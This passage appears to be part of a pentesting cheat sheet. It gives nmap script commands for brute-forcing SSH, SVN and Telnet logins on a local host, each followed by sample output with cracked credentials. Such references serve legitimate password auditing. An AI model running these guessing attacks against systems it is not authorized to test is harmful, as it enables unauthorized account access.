      root@hostname: ~/ #   nmap -p 22 --script ssh-brute --script-args userdb=users.lst,passdb=pass.lst --script-args ssh-brute.timeout=4s 192.168.1.12

     |22/ssh open  ssh
     | ssh-brute:
     |  Accounts
     |    username:password
     |  Statistics
     |_   Performed 32 guesses in 25 seconds.

## SVN - Brute-Force                               
_Performs Brute-Force password auditing against Subversion source code control servers_
     
     root@hostname: ~/ # nmap --script svn-brute --script-args svn-brute.repo=/svn/ -p 3690 192.168.1.12

     |PORT     STATE SERVICE REASON
     |3690/tcp open  svn     syn-ack
     | svn-brute:
     |   Accounts
     |_    patrik:secret => Login correct

Summary
-------
  x The svn class contains the code needed to perform CRAM-MD5
    authentication
  x The Driver class contains the driver implementation used by the brute
    library




## Telnet - Brute-Force                             
_Performs brute-force password auditing against telnet servers_
     
     root@hostname: ~/ #   nmap -p 23 --script telnet-brute --script-args userdb=myusers.lst,passdb=mypwds.lst,telnet-brute.timeout=8s 192.168.1.12

     |23/tcp open  telnet
     | telnet-brute:
     |   Accounts
     |     wkurtz:colonel
     |   Statistics
     |_    Performed 15 guesses in 19 seconds, average tps: 0
